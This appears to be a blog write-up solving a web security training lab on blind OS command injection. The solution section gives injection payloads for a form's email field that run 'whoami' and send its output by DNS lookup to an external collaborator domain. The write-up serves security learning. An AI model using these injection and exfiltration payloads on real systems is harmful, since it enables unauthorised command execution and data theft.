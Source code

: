 ```yaml
---
layout: post
title:  "Blind OS command injection with out-of-band data exfiltration"
date:   2024-10-15 11:20:54 +0530
---
```


## Objective 

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

## Solution 

Just like the last lab related OOB interaction, we can use the same following payload `|| nslookup m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` and pass this through the `email` field and let's check whether any interactions 

Awesome, we got the DNS interaction 

![]({{ site.baseurl }}/assets/images/os-13.png)

Now, let's kinda fine tune the payload like `|| nslookup $(whoami).m0nc1evdkdpq2lzcalmyvzxnmes6gw4l.oastify.com ||` where the backticks or even `$(whoami)` will act as a inline execution of bash commands over there 

Resend the payload through the `email` field and looking into the collaborator found that the `whoami` executed 

![]({{ site.baseurl }}/assets/images/os-14.png)

`whoami` command resulted in `peter-iAmZjL` and submitting as solution.. Solves the lab 

![]({{ site.baseurl }}/assets/images/os-15.png)
